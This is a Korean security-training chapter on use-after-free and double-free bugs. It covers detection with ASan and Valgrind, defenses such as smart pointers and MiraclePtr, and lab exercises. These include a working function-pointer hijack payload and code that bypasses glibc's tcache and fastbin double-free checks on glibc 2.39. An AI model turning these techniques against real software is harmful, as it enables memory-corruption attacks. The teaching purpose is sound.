

# Use-After-Free와 수명 오류 (Use-After-Free)

| 레벨 | 상태 | 최종 개정 | CWE |
|---|---|---|---|
| 🔴 | 🔄 개정중 | 2026-10-22 | [CWE-416](https://cwe.mitre.org/data/definitions/416.html) |

> **한눈에 보기**
> 객체를 해제(free)한 뒤에도 그 주소를 가리키는 포인터가 남아 있고, 코드가 그 포인터를 계속 쓰면 생긴다.
> 공격자는 해제된 자리에 자기가 고른 데이터를 채워 넣어, 프로그램이 "옛 객체"라고 믿는 메모리를 통째로 조작한다. 브라우저와 커널 취약점의 주류다.
> 막는 핵심은 하나다. **객체의 소유권(ownership)과 수명(lifetime)을 코드 구조로 강제하라.** 스마트 포인터, 참조 카운팅, 메모리 안전 언어가 그 수단이다.

## 1. 원리

### 1.1 수명이라는 신뢰 경계

힙 객체는 `malloc`(또는 `new`)으로 태어나고 `free`(또는 `delete`)로 죽는다. 문제는 포인터가 객체보다 오래 산다는 것이다. 해제된 뒤에도 주소값을 갖고 있는 포인터를 **댕글링 포인터(dangling pointer)** 라 부른다. 댕글링 포인터 자체는 아무 일도 하지 않는다. 그 포인터를 **역참조**하는 순간 Use-After-Free(UAF)가 된다.

```
 시간 ──────────────────────────────────────────────────────────────>

 ① p = malloc(32)      ② free(p)            ③ q = malloc(32)       ④ p->handler()
    [ 객체 A ]            [ 빈 청크 ]           [ 공격자 데이터 ]        ← A인 줄 알고 호출
     ^                     ^                     ^                       ^
     p                     p (댕글링)            p, q (같은 주소)          p
                                                                      신뢰 경계가 여기서 깨진다
```

신뢰 경계는 ③과 ④ 사이에 있다. 코드는 `p`가 여전히 "내가 만든 A"라고 가정한다. 그러나 할당자(allocator)는 같은 크기의 빈 청크를 바로 다시 내주므로, ③에서 공격자가 제어하는 입력이 A의 자리를 차지한다. ④에서 읽는 함수 포인터, 길이 필드, vtable 포인터는 전부 공격자 값이다.

[4장 힙 취약점](04-heap.md)에서 다룬 glibc tcache는 같은 크기 클래스의 청크를 **LIFO**로 재사용한다. "방금 해제한 크기와 같은 크기로 할당하면 같은 주소가 나온다"는 것이 UAF 익스플로잇의 출발점이다.

### 1.2 댕글링 포인터가 생기는 경로

| 경로 | 설명 | 흔한 곳 |
|---|---|---|
| 명시적 해제 후 포인터 보존 | `free(p)` 후 `p = NULL`을 안 하고, 다른 곳에서 `p`를 또 쓴다 | C 코드 전반 |
| 참조 카운트 오류 | `get`/`put`(또는 `AddRef`/`Release`) 쌍이 어긋나 카운트가 0이 되어 먼저 해제된다. 반대로 카운트가 넘쳐(wrap) 0이 되기도 한다 | 커널, COM, 브라우저 |
| 컨테이너 재할당 | `std::vector::push_back`이 내부 버퍼를 옮기면 기존 요소의 포인터·참조·반복자가 무효가 된다 | C++ |
| 콜백 중 해제 | 객체 A의 메서드 실행 중에 호출된 콜백(이벤트 핸들러, JS 코드)이 A를 지운다. 메서드는 돌아와서 `this`를 계속 쓴다 | 브라우저, GUI |
| 경쟁 조건 | 한 스레드가 해제하는 사이 다른 스레드가 쓴다 | 커널, 멀티스레드 서버 |
| 소유권 모호 | 함수가 포인터를 "빌려 쓰는지" "넘겨받는지"가 문서화되지 않아 양쪽이 모두 해제하거나 아무도 해제하지 않는다 | 라이브러리 경계 |

### 1.3 해제 후 재할당과 타입 혼동

UAF가 위험한 이유는 "옛 값을 읽는다"에서 끝나지 않기 때문이다. 공격자가 같은 크기의 **다른 타입** 객체를 그 자리에 할당하면, 코드는 타입 A의 레이아웃으로 타입 B의 메모리를 해석한다. 이것이 UAF를 통한 **타입 혼동(type confusion)** 이다.

```
 타입 A (해제됨, 코드가 믿는 모습)        타입 B (실제로 그 자리에 있는 것)
 +0x00  vtable 포인터  ───────────────▶  +0x00  문자열 길이  (공격자가 지정)
 +0x08  refcount                         +0x08  문자열 데이터 ...
 +0x10  void (*on_close)(void*)  ──────▶ +0x10  문자열 데이터 ... ← 호출되면 RIP 제어
```

A의 `on_close`를 호출하는 코드가 B의 문자열 바이트를 함수 주소로 읽는다. 이때부터는 [8장 ROP](08-rop.md)의 영역이다. 재할당 없이, 캐스트나 JIT 추론만으로 같은 어긋남이 생기는 경우는 [10장 타입 혼동](10-type-confusion.md)에서 따로 다룬다. 4.2절의 실습이 이 그림을 바이트 단위로 재현한다.

### 1.4 Double Free

같은 포인터를 두 번 해제하면([CWE-415](https://cwe.mitre.org/data/definitions/415.html)) 할당자의 빈 청크 목록(free list)에 같은 청크가 두 번 들어간다. 이후 두 번의 `malloc`이 **같은 주소**를 돌려주므로, 서로 다른 두 객체가 한 메모리를 공유하는 UAF와 같은 상황이 만들어진다. 현대 glibc는 가장 단순한 경우를 잡아낸다.

```
$ ./dfree
free(): double free detected in tcache 2
Aborted
```

이 검사는 tcache 항목의 `key` 필드로 "방금 해제된 청크인가"를 확인하는 것이라, 중간에 다른 해제가 끼거나 `key`를 덮어쓸 수 있으면 통과된다. 7절에서 다룬다.

### 1.5 브라우저 JS 엔진에서의 UAF

브라우저는 UAF의 최대 산지다. 이유는 구조에 있다.



<figure>
<figcaption>그림 1. 브라우저 UAF의 전형. C++ 코드가 객체를 쓰는 도중에 JS 콜백이 끼어들어 그 객체의 수명을 끝낸다.</figcaption>
</figure>

- DOM·파일 API·오디오는 C++로 구현되어 JS에 노출된다. C++ 객체는 수동 관리나 참조 카운트로, JS 객체는 가비지 컬렉터(GC)로 관리되어 경계에서 "누가 언제 지우는가"가 어긋난다.
- JS는 `valueOf`, getter, 이벤트 핸들러로 C++ 연산 **중간**에 끼어들 수 있고, `ArrayBuffer`·타입드 배열로 원하는 크기의 객체를 원하는 수만큼 만들어 힙 레이아웃을 조작할 수 있다(heap spray).

8절의 CVE-2019-5786(FileReader), CVE-2019-13720(WebAudio), CVE-2022-22620(WebKit History API)이 모두 이 구조에서 나왔다.

## 2. 발생하는 코드 패턴

### C: 해제 후 포인터 보존

```c
// ❌ 취약: 해제 뒤에도 세션 포인터가 전역 목록에 남는다
struct session *sess = find_session(id);
close_session(sess);            /* 내부에서 free(sess) */
log_access(sess->user);         /* 댕글링 포인터 역참조 */
```

```c
// ✅ 안전: 해제 직후 포인터를 무효화하고, 접근 전에 확인한다
close_session(sess);
sess = NULL;
/* ... */
if (sess) log_access(sess->user);
```

`p = NULL`은 **그 변수 하나**만 막는다. 다른 복사본(목록, 캐시, 콜백 컨텍스트)은 그대로 댕글링이므로, 근본 조치는 복사본 수를 알 수 없는 설계를 바꾸는 것이다.

### C++: 컨테이너 재할당

```cpp
// ❌ 취약: push_back이 재할당하면 first는 해제된 버퍼를 가리킨다
std::vector<Item> items;
Item &first = items[0];
items.push_back(make_item());    // 용량 초과 시 내부 버퍼 이동
first.name = "x";                // UAF
```

```cpp
// ✅ 안전: 참조 대신 인덱스를 들고 있거나, 수정 전에 reserve 한다
size_t idx = 0;
items.push_back(make_item());
items[idx].name = "x";
```

### C++: 콜백이 `this`를 지운다

```cpp
// ❌ 취약: 핸들러가 이 객체를 제거할 수 있다
void Widget::OnClick() {
    for (auto &h : handlers_) h(this);   // 핸들러 안에서 delete widget 가능
    count_++;                            // this는 이미 해제됐을 수 있다
}
```

```cpp
// ✅ 안전: 수명을 콜백 동안 붙들어 둔다
void Widget::OnClick() {
    auto self = shared_from_this();      // 참조 카운트 +1
    for (auto &h : handlers_) h(this);
    count_++;                            // self가 살아 있으므로 안전
}
```

### 참조 카운트 불일치

```c
// ❌ 취약: 오류 경로에서 참조를 돌려주지 않는다 (CVE-2016-0728의 구조)
struct obj *o = obj_get(id);            /* refcount++ */
if (check(o) < 0)
    return -EINVAL;                     /* obj_put(o) 누락 → 카운트 누수 */
obj_put(o);
```

참조 **누수**는 당장은 메모리 누수지만, 32비트 카운터를 약 43억 번 반복해 0으로 되돌리면 객체가 해제되어 UAF가 된다. 반대로 `put`이 하나 더 많으면 쓰이는 중에 해제된다.

## 3. 탐지 방법

### 3.1 코드 리뷰 / 정적 분석

**grep으로 시작한다.** 해제 함수 호출 뒤에 같은 변수가 다시 나오는 곳을 본다.

```bash
# free(x) 뒤 같은 함수 안에서 x가 다시 쓰이는지 (후보 추출용, 오탐 많음)
grep -nE "\bfree\s*\(\s*(\w+)\s*\)" -r --include='*.c' . | head
# 참조 카운트 쌍의 균형: 파일별 get/put 개수 비교
for f in $(git ls-files '*.c'); do
  echo "$f $(grep -c 'kref_get\|refcount_inc' $f) $(grep -c 'kref_put\|refcount_dec' $f)"; done
```

**정적 분석기**

- Clang Static Analyzer(`scan-build make`)의 `unix.Malloc` 검사기가 use-after-free와 double free를 보고한다.
- CodeQL C/C++ 쿼리 팩에 CWE-416 쿼리가 있다. 해제 지점에서 사용 지점까지 흐름을 추적한다.
- Semgrep은 패턴 기반이라 UAF에는 약하다. "free 직후 역참조" 같은 국소 패턴만 잡는다.

**리뷰할 때 보는 순서**

1. 객체마다 **소유자가 누구인지** 묻는다. 답이 바로 나오지 않는 객체가 후보다.
2. 해제 함수(`free`, `delete`, `kfree`, `*_release`, `*_put`)를 전부 찾고, 그 객체의 포인터 복사본이 어디에 있는지(목록, 콜백 컨텍스트, 캐시) 센다.
3. 콜백·이벤트·가상 함수 호출이 **객체 연산 중간**에 있는지 본다. 콜백이 객체를 지울 수 있으면 후보다.
4. 참조 카운트는 함수의 **모든 반환 경로**(특히 오류 경로)에서 `get`/`put`이 짝을 이루는지 본다.
5. 컨테이너를 순회하면서 그 컨테이너를 수정하는 코드가 있는지 본다.

### 3.2 동적 테스트

**AddressSanitizer(ASan)** 가 UAF 탐지의 표준이다. 컴파일 시 `-fsanitize=address`를 붙이면 해제된 메모리를 격리(quarantine)해 두고 접근하면 즉시 멈춘다. 4절의 실습 코드를 돌리면 이런 출력이 나온다.

```
==1588==ERROR: AddressSanitizer: heap-use-after-free on address 0x503000000050 at pc 0x5634938fa36f ...
READ of size 4 at 0x503000000050 thread T0
    #0 0x5634938fa36e in main uaf.c:15
0x503000000050 is located 16 bytes inside of 20-byte region [0x503000000040,0x503000000054)
freed by thread T0 here:
    #0 0x7f270d6fc4d8 in free ../../../../src/libsanitizer/asan/asan_malloc_linux.cpp:52
    #1 0x5634938fa30f in main uaf.c:12
previously allocated by thread T0 here:
    #0 0x7f270d6fd9c7 in malloc ../../../../src/libsanitizer/asan/asan_malloc_linux.cpp:69
    #1 0x5634938fa29e in main uaf.c:9
SUMMARY: AddressSanitizer: heap-use-after-free uaf.c:15 in main
```

읽는 법은 세 줄이다. **어디서 썼는가**(`READ of size 4 ... uaf.c:15`), **어디서 해제했는가**(`freed by ... uaf.c:12`), **어디서 할당했는가**(`previously allocated ... uaf.c:9`). 세 스택을 나란히 놓으면 소유권이 어디서 꼬였는지 대부분 보인다. 접근 크기(`size 4`)와 오프셋(`16 bytes inside of 20-byte region`)으로 어떤 필드인지도 알 수 있다.

ASan의 격리 구역은 유한하므로 해제 후 한참 뒤에 쓰는 UAF는 놓칠 수 있다(`ASAN_OPTIONS=quarantine_size_mb=`로 키운다).

**ASan 없이** 바이너리만 있을 때는 다음을 쓴다.

| 도구 | 쓰는 법 | 보이는 것 |
|---|---|---|
| Valgrind memcheck | `valgrind ./target` | `Invalid read ... Address ... is N bytes inside a block of size M free'd` |
| glibc `MALLOC_PERTURB_` | `MALLOC_PERTURB_=165 ./target` | 해제된 메모리를 특정 값으로 채워 "옛 값이 그대로 읽히는" 우연을 없앤다. 크래시가 재현되면 UAF 의심 |
| gdb + pwndbg | `heap`, `bins` 명령으로 해제된 청크 확인 | 포인터가 가리키는 청크가 tcache/fastbin에 들어 있는가 |

UAF는 입력 순서(생성→삭제→사용)에 의존해 손으로 찾기 어렵다. [9장 퍼징](09-fuzzing.md)의 ASan 빌드가 가장 잘 잡는다.

## 4. 실습 🧪

Docker 없이 gcc 하나로 재현한다. 환경은 [기초 5장 실습 환경 구축](../part1-foundations/05-lab-setup.md)을 따른다. 4.1은 "조용히 틀리는" 모습과 ASan 보고서, 4.2는 **해제 → 같은 크기 재할당 → 공격자 데이터 → 함수 포인터 호출 경로 변경**까지의 완결된 흐름이다.

### 4.1 재현 코드: 권한 플래그가 바뀐다

```c
/* uaf.c */
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

struct session { char name[16]; int is_admin; };

int main(void) {
    struct session *s = malloc(sizeof *s);
    strcpy(s->name, "guest");
    s->is_admin = 0;
    free(s);                       /* 해제 */
    char *buf = malloc(sizeof *s); /* 같은 크기 → 같은 자리 재할당 */
    memset(buf, 'A', sizeof *s);   /* 공격자 입력이 채운다 */
    printf("is_admin = %d\n", s->is_admin); /* 댕글링 포인터 사용 */
    return 0;
}
```

1. 새니타이저 없이 빌드해 "조용히 틀리는" 모습을 본다.
   ```bash
   gcc -O0 -g uaf.c -o uaf_nosan && ./uaf_nosan
   # is_admin = 1094795585        ← 0x41414141. 'A' 네 개가 권한 플래그가 됐다
   ```
   크래시가 없다. 로그에도 안 남는다. UAF가 "눈에 안 띄는" 이유다.
2. ASan으로 빌드해 3.2절의 보고서를 받는다.
   ```bash
   gcc -O0 -g -fsanitize=address uaf.c -o uaf && ./uaf
   ```
3. `free(s)` 뒤에 `s = NULL;`을 넣고 다시 빌드한다. 이번에는 NULL 역참조로 **크래시**한다. 조용한 오동작이 시끄러운 크래시로 바뀐 것이고, 이것이 "null after free"의 가치다.

### 4.2 함수 포인터 호출 경로 바꾸기

4.1의 `int`를 함수 포인터로 바꾸고, `memset` 대신 **입력**이 재할당된 청크를 채우게 한다. 그러면 "플래그가 바뀐다"가 "호출되는 함수가 바뀐다"가 된다.

```c
/* uaf2.c : 해제 → 같은 크기 재할당 → 함수 포인터 호출 */
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

struct session { char name[16]; void (*on_close)(struct session *); };

void bye(struct session *s)  { printf("bye, %s\n", s->name); }
void win(void)               { puts("[+] win() reached"); exit(0); }

int main(void) {
    struct session *s = malloc(sizeof *s);      /* 24바이트 요청 → 0x20 청크 */
    strcpy(s->name, "guest");
    s->on_close = bye;
    free(s);                                    /* ① 해제. s는 댕글링 */
    char *note = malloc(sizeof *s);             /* ② 같은 크기 → 같은 주소 (tcache LIFO) */
    read(0, note, sizeof *s);                   /* ③ 공격자 입력이 옛 session 자리를 채운다 */
    printf("s=%p note=%p\n", (void *)s, (void *)note);
    s->on_close(s);                             /* ④ 옛 포인터로 함수 포인터 호출 */
    return 0;
}
```

`win()`을 부르는 코드는 없다. 목표는 ④에서 `bye` 대신 `win`이 불리게 하는 것이다.

1. 완화를 끄고 빌드한다. 힙 공격은 카나리·NX와 무관하므로 **PIE만** 끈다(함수 주소를 고정하기 위해). [00장 5절](00-overview.md)의 플래그 중 `-no-pie`만 쓴다.
   ```bash
   gcc -g -O0 -no-pie -o uaf2 uaf2.c
   checksec --file=./uaf2        # Stack: No canary found / NX: NX enabled / PIE: No PIE (0x400000)
   nm uaf2 | grep -w win         # 0000000000401204 T win
   ```
2. 정상 입력으로 ②가 **같은 주소**를 돌려주는지 확인한다. 0x20 크기 tcache bin에 방금 들어간 청크가 LIFO로 바로 나온다.
   ```bash
   printf 'alice' | ./uaf2
   # s=0x331202a0 note=0x331202a0     ← 같은 주소
   # bye, alice                       ← on_close는 아직 bye. read()가 16바이트까지만 썼고 이름 뒤는 그대로다
   ```
3. 페이로드를 만든다. `name[16]` 다음 8바이트가 `on_close`이므로 **16바이트 + `win`의 주소(리틀 엔디언 8바이트)** 다. `read()`는 `sizeof *s` = 24바이트까지 받으므로 정확히 들어간다.
   ```bash
   python3 -c "import sys,struct; sys.stdout.buffer.write(b'A'*16 + struct.pack('<Q', 0x401204))" > payload.bin
   ./uaf2 < payload.bin
   # s=0x134c72a0 note=0x134c72a0
   # [+] win() reached                ← 호출 경로가 bye → win으로 바뀌었다
   ```
4. gdb에서 ④ 직전의 메모리와 호출 명령을 본다. 해제된 청크에 쓴 `tcache_entry`(next·key)는 ③에서 입력으로 덮였고, 그 자리를 코드는 여전히 `struct session`으로 읽는다.
   ```
   $ gdb -q ./uaf2
   (gdb) break 20
   (gdb) run < payload.bin
   (gdb) p *s
   $1 = {name = 'A' <repeats 16 times>, on_close = 0x401204 <win>}
   (gdb) x/4gx s
   0x4052a0:  0x4141414141414141  0x4141414141414141     ; name[16]
   0x4052b0:  0x0000000000401204  0x0000000000001011     ; on_close = win, 다음 청크의 size
   (gdb) stepi 4
   (gdb) x/i $pc
   => 0x4012bc <main+151>:  call   *%rdx                 ; rdx = 0x401204 = win
   ```
   `x/4gx`의 네 번째 값 `0x1011`은 바로 뒤 청크의 size 필드다(이 시점에는 첫 `printf`가 할당한 stdout 버퍼, 0x1010 | PREV_INUSE). 24바이트를 요청했지만 청크는 0x20이고 사용자 영역 24바이트가 꽉 찼으므로, `read()`의 상한이 24보다 컸다면 25번째 바이트부터 그 size를 덮는 [4장](04-heap.md)의 힙 오버플로가 된다.
5. PIE를 켜고(`gcc -g -O0 -o uaf2_pie uaf2.c`) 같은 페이로드를 넣으면 SIGSEGV다. `0x401204`는 이제 `win`이 아니다. 완화가 막은 것은 "어디로 보낼지 아는 것"이지 "보내는 것"이 아니며, 코드 주소 하나만 누출되면 다시 성립한다([7장 4절](07-mitigations.md)).

이 네 단계(해제 → 같은 크기 재할당 → 내용 제어 → 옛 타입으로 사용)가 5절 표의 2~4단계이고, 7절은 실제 제품에서 ②와 ③을 성립시키는 조건을 다룬다.

### 4.3 더 해 보기

- 4.2의 `on_close`가 호출되기 전에 다른 크기(예: `malloc(100)`)를 먼저 할당해 본다. 같은 주소가 나오는가? 0x20 bin이 아닌 0x70 bin에서 꺼내므로 `s`와 `note`가 달라지고 공격은 실패한다. "같은 크기 클래스"라는 조건이 왜 필요한지가 여기서 보인다.
- glibc 할당자 수준의 UAF·double free 기법은 [shellphish/how2heap](https://github.com/shellphish/how2heap)의 `fastbin_dup.c`, `tcache_poisoning.c`를 ASan 없이 빌드해 gdb+pwndbg의 `bins` 명령으로 따라간다([4장 힙](04-heap.md)).
- 2절의 C++ 예제를 `g++ -fsanitize=address`로 빌드해 보고서를 비교한다. 컨테이너 재할당은 `heap-use-after-free`, 지역 객체 참조 반환은 `stack-use-after-return`으로 잡힌다.
- 4.2를 [10장 타입 혼동](10-type-confusion.md)의 관점으로 다시 읽는다. ④에서 코드가 `note`의 바이트를 `session`으로 읽는 것은 재할당이 만든 타입 혼동이고, 10장 실습은 재할당 없이 캐스트만으로 같은 일이 일어나는 것을 보여 준다.

## 5. 익스플로잇 검증

"ASan이 heap-use-after-free를 보고했다"는 것만으로는 심각도를 정할 수 없다. 실습 환경 안에서 다음을 순서대로 확인한다.

| 단계 | 확인 | 4.2에서 | 심각도에 미치는 영향 |
|---|---|---|---|
| 1 | 해제→사용 순서를 외부 입력으로 유발할 수 있다 | ①→④ 순서가 코드에 고정 | 취약점 존재. 최소 DoS |
| 2 | 해제와 사용 사이에 공격자가 **같은 크기 클래스**의 할당을 일으킬 수 있다 | ② `malloc(24)` | 재할당 가능. 내용 제어 여부로 갈린다 |
| 2′ | 그 할당이 해제된 청크를 **실제로** 돌려받는다 (bin이 LIFO로 비어 있지 않고, 사이에 다른 해제·할당이 끼지 않는다) | tcache 0x20 bin에 `s` 하나뿐 | 레이아웃 제어. 7절의 조건 |
| 3 | 재할당된 메모리의 내용을 공격자가 정한다 (문자열, 버퍼 등) | ③ `read(0, note, 24)` | 읽기면 정보 누출, 쓰기면 메모리 변조. High |
| 3′ | 공격자 데이터가 옛 타입의 **민감 필드 오프셋**에 닿는다 (크기가 모자라면 앞부분만 덮인다) | 16~23바이트가 `on_close` | 어떤 필드를 제어하는가로 갈린다 |
| 4 | 옛 타입의 함수 포인터·vtable·길이 필드가 공격자 값으로 읽힌다 | ④ `call *%rdx` → `win` | 제어 흐름 탈취 또는 임의 읽기/쓰기. Critical |
| 4′ | 점프할 주소를 안다 (PIE 없음, 또는 코드 주소 누출) | `-no-pie`로 고정 | 누출이 없으면 4단계는 크래시로 끝난다([7장](07-mitigations.md)) |

2단계는 ASan 보고서의 "freed by"와 "READ/WRITE of" 스택 사이에서 **어떤 코드가 실행되는지**를 추적하면 판단할 수 있다. 2′와 3′는 보고서에서 가장 자주 빠지는 항목이다. "같은 크기 할당이 있다"와 "그 할당이 그 청크를 받는다"는 다르고, "내용을 정한다"와 "함수 포인터 자리까지 정한다"도 다르다. 4.2에서 `read()`가 16바이트까지만 받았다면 `on_close`는 그대로 `bye`이고 심각도는 한 단계 내려간다. 3단계부터는 완화 기법([7장](07-mitigations.md))을 뚫어야 하므로 보고서에는 "4단계까지 가능해 보이는 근거"를 적고 실제 셸 획득은 허가 범위 안에서만 한다. [방법론 6장 익스플로잇 검증](../part2-methodology/06-exploit-verification.md)의 원칙과 같다.

## 6. 방어

| 계층 | 조치 | 효과 |
|---|---|---|
| 코드 | 소유권을 하나로 정하고 문서화한다. 해제 직후 `p = NULL` | 근본 제거의 첫걸음. 복사본이 많으면 불충분 |
| 코드 | C++ `std::unique_ptr`(단일 소유), `std::shared_ptr` + `std::weak_ptr`(공유·관찰). 원시 포인터로 소유권을 넘기지 않는다 | 수명이 타입에 묶인다 |
| 코드 | 참조 카운트는 모든 반환 경로에서 짝을 맞춘다. 커널은 `refcount_t`(포화 시 wrap 방지) 사용 | 카운트 오버플로형 UAF 차단 |
| 코드 | 콜백 호출 전 자기 수명 고정(`shared_from_this`, `KeepAlive` 패턴), 순회 중 컨테이너 수정 금지 | 콜백형 UAF 차단 |
| 언어 | Rust 등 소유권을 컴파일러가 검사하는 언어로 신규 코드 작성 | 컴파일 시점에 댕글링 참조 거부 |
| 프레임워크 | Chromium `raw_ptr<T>`(MiraclePtr/BackupRefPtr): 할당자가 참조 수를 세어 댕글링 포인터가 있는 동안 메모리를 격리한다 | 대규모 C++ 코드의 UAF를 **익스플로잇 불가능한 크래시**로 바꾼다 |
| 인프라 | 할당자 강화: glibc tcache double-free 검사·safe-linking, PartitionAlloc 격리, 하드웨어 MTE([7장](07-mitigations.md)) | 익스플로잇 난이도 상승, 일부는 확률적 차단 |
| 탐지 | CI에서 ASan 빌드로 테스트·퍼징 실행, 크래시 보고에 할당·해제 스택 포함 | 사후 대응 |

MiraclePtr의 동작 원리는 Chromium 문서 [raw_ptr.md](https://github.com/chromium/chromium/blob/main/base/memory/raw_ptr.md)에 있다. 핵심은 "해제를 막는 것이 아니라, 댕글링 `raw_ptr`이 남아 있는 한 **그 메모리를 재사용하지 않는** 것"이다. 1.3절의 타입 혼동이 성립하지 않게 된다.

## 7. 우회 기법 🔴

| 방어 | 우회 |
|---|---|
| `p = NULL` | 남은 복사본을 찾는다. 콜백 컨텍스트, 타이머, 캐시, 다른 스레드의 지역 변수 |
| glibc tcache double-free 검사 (`key` 필드) | 두 `free` 사이에 다른 청크를 해제해 tcache 항목을 밀어내거나, 힙 오버플로로 `key`를 덮어쓴다. tcache가 꽉 찬 뒤 fastbin으로 보낸다 |
| 할당자 격리(quarantine) | 격리 용량을 넘기도록 대량 할당·해제를 반복해 격리된 청크를 밀어낸다. 격리 대상이 아닌 크기(대형 mmap 할당)를 노린다 |
| 재할당 시 같은 크기 클래스 필요 | 힙 스프레이(heap spray)로 같은 크기 객체를 수천 개 만들어 LIFO 순서에 의존하지 않게 한다. 브라우저는 `ArrayBuffer` 크기를 바이트 단위로 정할 수 있다 |
| MTE(메모리 태깅) | 태그가 4비트이므로 재할당 시 같은 태그가 나올 확률이 1/16이다. 확률 공격 또는 태그 누출 취약점과 결합한다 |
| 참조 카운트 포화(`refcount_t`) | 포화는 오버플로형만 막는다. `put` 과다형(조기 해제)은 그대로 통한다 |
| MiraclePtr | `raw_ptr<T>`로 바뀌지 않은 포인터(스택 지역 변수, 일부 서드파티 코드)를 통해 접근하는 경로를 찾는다 |

### 7.1 한 사례의 실제 우회 과정: tcache double free 검출(`key`) 통과

표의 둘째 줄을 끝까지 따라간다. 1.4절의 `free(): double free detected in tcache 2`는 glibc가 가장 단순한 double free를 잡는 모습이었다. 검사가 **무엇을 보는지** 알면 통과시키는 데 한 줄이면 된다. 2.39의 `malloc.c`에서 `free`는 청크를 tcache에 넣기 전에 `e->key == tcache_key`인지 본다. `key`는 해제된 청크의 사용자 데이터 **8~15번째 바이트**(`tcache_entry.key`, 첫 8바이트는 `next`)이고, `tcache_key`는 프로세스 시작 때 뽑은 랜덤 값이다. 같으면 "방금 해제된 청크일지 모른다"고 보고 bin을 순회해 같은 청크가 있으면 중단한다. **다르면 순회 자체를 하지 않는다.** 즉 첫 `free` 뒤에 `key`를 아무 값으로든 덮어 두면 두 번째 `free`가 통과한다.

```c
/* dfree_key.c — tcache double free 검출(key)을 덮어써 통과시킨다 */
#include <stdio.h>
#include <stdlib.h>
#include <stdint.h>

int main(int argc, char **argv) {
    uint64_t *p = malloc(24);               /* 0x20 청크 → tcache[0x20] */
    free(p);                                /* p[0] = next(가려짐), p[1] = key = tcache_key */
    printf("after free : next=%#lx key=%#lx\n", p[0], p[1]);
    if (argc > 1)
        p[1] = 0;                           /* ❌ UAF 쓰기로 key를 지운다 → 검사 대상에서 빠진다 */
    free(p);                                /* 두 번째 free. key가 그대로면 abort */
    uint64_t *a = malloc(24);
    uint64_t *b = malloc(24);
    printf("a=%p b=%p %s\n", (void *)a, (void *)b, a == b ? "<- 같은 청크를 두 번 받았다" : "");
    return 0;
}
```

```
$ gcc -g -O0 -o dfree_key dfree_key.c
$ ./dfree_key                                    # key를 건드리지 않고 두 번 free
free(): double free detected in tcache 2
Aborted (core dumped)                            ← exit 134 (SIGABRT)
$ ./dfree_key x                                  # 첫 free 뒤 key를 0으로
after free : next=0x5586ca163 key=0xc7725dc65870be05
a=0x5586ca1632a0 b=0x5586ca1632a0 <- 같은 청크를 두 번 받았다
```

첫 줄의 `next=0x5586ca163`은 리스트 끝(NULL)을 safe-linking으로 가린 값, 즉 `pos >> 12`다([4장 4.3절](04-heap.md)). `key`는 실행마다 다르다(랜덤). 두 번째 `free`가 통과하면 bin에 같은 청크가 두 번 들어가고(`p -> p`), 이어지는 `malloc` 두 번이 **같은 주소**를 돌려준다. 프로그램에 UAF가 없어도 공격자가 UAF를 **만들어 낸** 것이다. 이 뒤는 4.2절과 같다. `a`를 옛 타입 객체로, `b`를 공격자 데이터로 쓰면 1.3절의 타입 혼동이 된다. 또는 `a`를 받은 뒤에도 `p`가 bin에 남아 있으므로 `a`의 첫 8바이트에 가린 포인터를 쓰면 [4장 7.1절](04-heap.md)의 tcache poisoning으로 바로 이어진다.

**조건 세 가지.** (1) **크기 클래스**: 요청이 tcache 범위(청크 0x20~0x410)여야 `free`가 tcache로 간다. 여기서는 `malloc(24)` → 0x20. (2) **tcache 수**: 그 bin에 이미 7개가 차 있으면 `free`는 fastbin(≤0x80) 또는 unsorted bin으로 가고 검사가 달라진다. (3) **쓰기 위치**: 첫 `free` 뒤 사용자 데이터 +8에 1바이트라도 쓸 수 있어야 한다. 해제된 객체에 "이름"이나 "상태"를 쓰는 UAF 쓰기, 또는 바로 앞 청크의 오버플로가 그 역할을 한다.

**버전과의 관계**(glibc `malloc.c` 태그별 소스로 확인). 2.26~2.28에는 `key` 필드가 없어 검사 자체가 없다(how2heap의 `tcache_dup`, 지금은 obsolete). 2.29가 `e->key = tcache`(tcache 구조체 포인터)로 검사를 도입했고, 2.34가 `tcache_key`를 `getrandom`으로 뽑은 랜덤 값으로 바꿨다. 랜덤이 된 것은 "`key`를 원래 값으로 **되돌려** 검사를 속이는" 경로를 막기 위한 것이지, "다른 값으로 **덮는**" 경로는 2.29부터 2.39까지 그대로 통한다. 검사가 "같으면 의심"이지 "다르면 거부"가 아니기 때문이다.

tcache가 7개로 찼을 때의 대안이 fastbin이다. fastbin의 double free 검사는 **꼭대기 하나**만 본다(`double free or corruption (fasttop)`, `old == p`). 사이에 다른 청크 하나를 끼우면 통과한다.

```c
/* fastbin_dup.c 핵심 — tcache[0x20]을 7개로 채운 뒤 */
free(a); free(b); free(a);                   /* fastbin: a -> b -> a. 꼭대기가 b일 때 a를 또 넣는다 */
for (int i = 0; i < 7; i++) malloc(24);      /* tcache를 비우면 다음부터 fastbin에서 나온다 */
void *x = malloc(24), *y = malloc(24), *z = malloc(24);
/* x=0x55a53908e2a0 y=0x55a53908e2c0 z=0x55a53908e2a0 <- x와 z가 같은 청크 (glibc 2.39 실측) */
```

두 방법 모두 glibc 2.39(Ubuntu 24.04)에서 그대로 동작한다. 기법별 전제조건과 차단 버전은 [4장 7.2절](04-heap.md)의 표에 모아 두었다.

